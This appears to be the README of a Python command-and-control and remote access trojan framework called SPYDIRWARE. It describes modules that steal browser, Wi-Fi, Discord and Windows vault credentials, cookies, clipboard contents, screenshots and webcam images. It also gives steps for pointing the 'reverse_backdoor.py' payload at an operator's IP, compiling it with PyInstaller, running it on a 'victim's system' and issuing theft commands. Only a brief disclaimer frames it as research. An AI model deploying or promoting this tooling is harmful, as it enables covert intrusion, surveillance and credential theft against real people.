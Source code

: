 # 🕷️ SPYDIRWARE - Python C2 / RAT Framework

> A stealthy, modular, and feature packed Command and Control (C2) framework written in Python.  
> Built for red teaming, remote access simulation, and malware development research.  
> **Developed by AnonSpyDir**

---

## ⚙️ Features

✅ Multi client Command & Control interface  
✅ Built in geolocation tracking (via IP)  
✅ Rich Terminal UI using [rich]  
✅ Base64-safe file transfer  
✅ Command aliases (shortcuts for quick ops)  
✅ Saves all logs + outputs per victim  
✅ Fully scriptable and modular  
✅ Compatible with Windows targets

---

## 🧩 Modules Included

From the victim's machine (`reverse_backdoor.py`):

- 📡 **System Command Execution**
- 📁 File Upload/Download
- 🖥️ Screenshot Capture
- 📷 Webcam Snapshot
- 🌐 Public IP + Geolocation
- 🧠 Wi-Fi Password Stealer
- 🔐 Chrome, Edge, Brave, Opera Password Stealer
- 🍪 Cookies & Autofill Dumper
- 🗂 Recent Files, User List, Installed Programs
- 📋 Clipboard Sniffer
- 🧪 VM & AV Detection
- 🎮 Discord Token Stealer
- 🧬 Windows Credential Vault Dumper

---

## 🖥️ How to Use

### 🧠 1. Launch the C2 Server

```bash
python spydirware.py
```
Make sure to change port in spydirware.py - Keep IP - 0.0.0.0

🧬 2. Deploy the Payload
Edit reverse_backdoor.py and replace:
```bash
HOST = "YOUR_IP_ADDRESS"
PORT = "YOUR_PORT"
```

Then run it on the victim's system (or compile it to .exe using PyInstaller).
```bash
python reverse_backdoor.py
```
Once connected, you'll see a new victim in the table.

✍️ Commands

From inside spydirware.py, use:
```bash
victims          - List connected bots
interact <id>    - Start command session with bot
aliases          - View command shortcuts
clear            - Refresh UI
exit             - Quit
```
Inside a victim session:
```bash
ls               - List files
pwd              - Show working dir
exec <cmd>       - Run any terminal command
screenshot       - Take screen capture
webcam_snap      - Snap a webcam photo
chrome_passwords - Steal saved Chrome passwords
...
```
All responses are saved under data/<username>/.

📁 Log Output
Every command result is saved to disk:
```bash
data/
└── user@host/
    ├── screenshot_20250420_153211.bin
    ├── wifi_passwords_20250420_153214.txt
    └── chrome_passwords_20250420_153221.txt

```
🔐 Disclaimer
This tool is provided for educational, research, and authorized red teaming purposes only.
You must not deploy it without explicit permission. Misuse may violate laws and terms of service.


